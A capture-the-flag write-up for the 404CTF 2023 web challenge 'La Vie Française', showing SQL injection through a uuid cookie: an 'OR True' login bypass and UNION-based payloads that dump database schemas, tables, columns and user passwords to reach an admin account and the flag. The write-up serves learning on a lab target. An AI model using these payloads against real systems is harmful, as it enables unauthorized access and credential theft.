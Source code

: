 ```yaml
---
title: CTFs | 404CTF_2023 | Web | La Vie Française
author: BatBato
date: 2023-06-05
categories: [CTFs, 404CTF_2023, Web]
tags: [Web,SQLi]
permalink: /CTFs/404CTF_2023/Web/La_Vie_Française
---
```


#  La Vie Française 

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c9b626a5-80c6-4c86-83f5-cc1df24d5ea4)

When we arrive in this challenge, we access a web page where we can create an account by clicking on `Postuler`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/8fdd4667-93c3-460a-bb14-ae3617e461db)

Because I am someone really original, I created the user `a` with the password... `a`. We then can connect using this account and we arrive to the `account` page:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/6209b847-5795-4e43-a579-1da71c8650c6)

At first I tried some SQLi on the previous forms without luck. I noticed that we have a `uuid` cookie and start looking about this on the web. Still nothing. I remembered of a challenge on WebGoat that used SQLi on cookies and when I tried `XXX' OR True -- -` I was now connected as `jacquesrival`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/ba684ae7-9a99-4b76-9f4a-4c90cade13c9)

I tried using the `XXX' OR True ORDER BY 3 -- -` command to access user `madeleineforestier` that have administrator right, but even connected with this technique to this admin user this wasn't enough. I tried a basic `UNION` based attack to recover information in the database and found that there was 3 columns using the command `XXX' UNION Select '1','2',3 -- -`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/9f2adc8f-b8c2-4529-87b7-41f123e9cdc1)

> Note that only the param `1` and `2` are displayed so no need to set the value of the third parameter
{: .prompt-tip}

We can now use the command `XXX' UNION Select '1',group_concat(0x7c,schema_name,0x7c),3 from information_schema.schemata -- -` to dump all the databases:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/415c774c-3701-4715-af20-fcfb12082281)

We can see that the database we are looking for is named `usersdb`. We can now run the command `XXX' UNION select group_concat(0x7c,TABLE_NAME,0x7c),group_concat(0x7c,TABLE_SCHEMA,0x7c),3 from INFORMATION_SCHEMA.TABLES where table_schema='usersdb'-- -` to dump the tables:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/a534b675-70cd-4871-b978-a8377d43db75)

As we can see, for the database `usersdb`, there is only one table called `users`. We can now list all the column name of this table using the command `XXX' UNION select group_concat(0x7c,COLUMN_NAME,0x7c),group_concat(0x7c,TABLE_NAME,0x7c),3 from INFORMATION_SCHEMA.COLUMNS where table_name='users' -- -`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/2fd3342e-1f4e-4d1e-a7df-7c21b87e501c)

We can see that there is the `username` and `password` attribute that we may want to dump using the command `XXX' UNION select group_concat(0x7c,username,0x7c),group_concat(0x7c,password,0x7c),3 from users -- -`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/35737ca8-be1c-43b0-a41b-eb9d954661ac)

We see a list of password... We can try connecting to the `madeleineforestier` account using the password `fo2DVkgShz2pPJ` and now when we go to the admin panel:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/61a6abba-9eed-465f-9a08-e0736fd14359)

We get the flag: `404CTF{B3w4Re_th3_d3STruct1v3s_Qu0tes}`




